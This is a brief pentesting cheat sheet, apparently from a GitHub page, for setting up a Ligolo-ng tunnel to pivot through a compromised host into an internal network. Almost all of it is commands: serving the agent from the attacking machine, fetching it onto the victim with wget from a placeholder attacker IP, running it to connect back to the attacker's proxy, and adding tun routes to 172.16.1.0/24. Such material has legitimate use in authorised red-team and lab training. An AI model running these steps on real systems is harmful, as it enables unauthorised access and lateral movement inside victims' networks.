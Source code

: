 ## 1. Run Python web server from attacking machine. Host the 'agent.exe/agent' file.
`python3 -m http.server 8000`

2. Run from the compromised host.
`wget http://<AttackingIP>:<AttackingPort>/agent`

3. Run from your attacking machine.
`sudo ./proxy -selfcert`

4. Run from the compromised host. (If compromised host = Linux)
`sudo chmod +x ./agent`
`sudo ./agent -connect <AttackingIP>:11601 -ignore-cert`

If (compromised host = Windows)
`./agent.exe -connect <AttackingIP>:11601 -ignore-cert`

5. Run from Ligolo Proxy (From Attacking Machine)
`session`
`1`
`ifconfig`

In the above ifconfig command, copy the IP address of the interface. Let us assume the IP is 172.16.1.100

6. Run the following commands on the attacking machine to set up the interface.
`sudo modprobe tun`
`sudo ip tuntap add mode tun dev ligolo`
`sudo ip route add 172.16.1.0/24 dev ligolo`
`ip route list`

## Do you see the Ligolo interface now?
